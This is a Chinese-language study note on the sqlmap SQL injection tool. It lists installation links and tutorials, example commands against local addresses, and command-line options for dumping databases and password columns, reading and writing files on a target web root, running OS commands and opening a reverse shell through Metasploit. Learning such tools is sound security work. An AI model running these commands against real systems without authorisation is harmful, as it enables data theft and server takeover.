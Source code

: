 ## sqlmap使用学习

- [连接](https://www.kancloud.cn/lengyueguang/linux/1257683)

---

#### 安装

- sqlmap需要python环境
  - [python下载](https://www.python.org/downloads/)
- sqlmap下载
  - [官方网站](http://sqlmap.org/)
  - [git clone](https://github.com/sqlmapproject/sqlmap.git)

---

#### 使用方式

- 博客教程
  - [详细教程1](https://blog.csdn.net/wn314/article/details/78872828)
  - [详细教程2](https://www.cnblogs.com/hongfei/p/3872156.html)
  - [详细教程3](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

- 判断是否存在get请求sql注入
  ```sh
  sqlmap.py -u “http://192.168.1.1/get_int.php？id=xxx" 
  ```

- 判断是否存在post请求方式注入

  - 将post请求包保存到文本中

  ```sh
  sqlmap.py -r "文本路径" 
  --dbs  //数据库
  --current-db //当前数据库
  --tables //表名
  --columns //行
  --dump 
  ```


---

#### 参数

- --batch 不要用户输入 

- -u 指定url

- --data='{a:1}' 字符串通过post发送

- --cookie=cookie 指定 http cookie

- --random-agent 随机选择 user-agent

- --proxy=xxx 用代理去连接目标

- --tor 使用匿名网络

- --check-tor 检测tor是否使用正确

- --dbs 列出数据库名称

- -D 指定数据库名称 

- --tables 列出表名

- -T 指定表名 -T table_xx

- --columns 列出字段名称

- -C 指定字段名称 -C columns_xx

- --dump 列出指定列的内容

  ```sh
  python3 sqlmap.py -u "http://127.0.0.1:9987/sql?tta=1" -D db_stopic -T tb_person -C name,pwd --dump
  ```

- -p指定测试参数 -p "page,id"

- --current-user 获取当前用户名称

- --current-db 获取当前数据库名称

- --users 列出所有用户

- --dump-all 列出所有数据库所有表

- --dbms 指定数据库

- --is 指定系统

- --sql-shell 执行指定sql命令

- --sql-query执行执行的sql语句

- --file-read 读取指定文件

- --file-write 写入本地文件

- --file-dest 要写入的文件绝对路径

  ```sh
  -–file-write /test/test.txt –file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt
  ```

- --os-cmd=whoami 命令执行(但是好像有点问题)

- --os-pwn 反弹shell shell(–os-pwn –msf-path=/opt/framework/msf3/) 

- –msf-path=  #matesploit绝对路径(–msf-path=/opt/framework/msf3/)
